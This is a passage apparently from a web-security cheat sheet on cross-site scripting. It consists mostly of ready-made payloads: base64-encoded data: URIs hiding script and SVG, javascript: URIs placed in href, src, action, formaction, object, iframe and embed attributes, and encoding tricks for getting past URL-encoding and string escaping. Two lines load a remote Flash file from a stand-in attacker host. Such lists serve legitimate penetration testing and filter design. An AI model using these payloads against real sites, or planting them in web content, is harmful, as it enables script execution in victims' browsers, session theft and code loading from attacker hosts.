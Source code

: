 ```javascript
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

#### Places where you can inject these protocols

**In general** the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** (but not `<img`)

```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf 
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf 
<iframe srcdoc="<svg onload=alert(4);>">
```

#### Other obfuscation tricks

_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Moreover, there is another **nice trick** for these case&#x73;**: Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
